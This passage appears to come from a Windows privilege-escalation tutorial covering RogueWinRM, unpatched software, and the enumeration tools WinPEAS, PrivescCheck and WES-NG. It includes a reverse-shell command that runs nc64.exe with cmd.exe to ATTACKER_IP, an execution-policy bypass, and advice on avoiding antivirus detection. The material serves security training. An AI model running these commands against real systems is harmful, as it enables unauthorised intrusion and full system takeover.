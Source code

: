 Before running the exploit, we'll start a netcat listener to receive a reverse shell. And then we can trigger the exploit using the following in the webshell
```
c:\RogueFolder\RogueWinRM.exe -p "C:\CatFolder\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```
This will essentially execute the RogueWinRM.exe, starting a fake WinRM and impersonate the SYSTEM user, then executing nc64.exe (`-p`) and passing the arguments that it needs to spawn a shell and connect (`-a`)


## Vulnerable Software
### Unpatched Software
The holy grail, just as with drivers, organisations and users may not update them as often as they update the operating system. We can use the `wmic` tool to list software installed on the target system and its versions. The following command will dump information it can gather on installed software
```
wmic product get name,version,vendor
```
This command may not return all installed programs. Depending on how some of the programs were installed, they might not get listed here. That's why it is important to also check desktop shortcuts, "App & browser control" in windows security, installed apps in config, available services or generally any trace that indicates the existence of additional software that might be vulnerable.
Once we have gathered product version info, we can search for existing exploits on sites like [exploit-db](https://www.exploit-db.com/) 

## Enumeration
Several scripts exist to conduct system enumeration, these tools shorten the enumeration process time and uncover different potential privilege escalation vectors. However, these can sometimes miss routes, so checking manually is always worthwhile.
### WinPEAS
WinPEAS is a script developed to enumerate the target system to uncover privilege escalation paths. For info and download refer to [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS). It will run commands similar to previous methods and print their output, as this can be rather lengthy it is always good practice to redirect it.
```
winpeas.exe > output.txt
```

### PrivescCheck
PrivescCheck is a PowerShell script that searches common privilege escalation on the target system. It provides an alternative to WinPEAS without requiring the execution of a binary file. Info and download [PrivescCheck](https://github.com/itm4n/PrivescCheck).
To be able to run it, we may need to bypass the execution policy restrictions. To do this we can use 
```Powershell
Set-ExecutionPolicy Bypass -Scope process -Force 
. .\PrivescCheck.ps1 
Invoke-PrivescCheck
```
### WES-NG
Some exploit suggesting scripts like WinPEAS will requiere us to upload them to the target system and run them there. This may cause antivirus software to detect and delete them. To avoid alerting and be more ninja-like we can use Windows Exploit Suggester - Next Generation (WES-NG), which will run on our attacking machine.
WES-NG is a Python script that can be found and downloaded [here](https://github.com/bitsadmin/wesng).
Once installed, and before using it, we can enter `wes.py --update` to update the database. Checking for missing patches that can result in a vulnerability we can use to escalate.
To run the script we need to run the `systeminfo` command on the target system. We can then take the output from it and give it to WES-NG as an argument like so
```sh
```
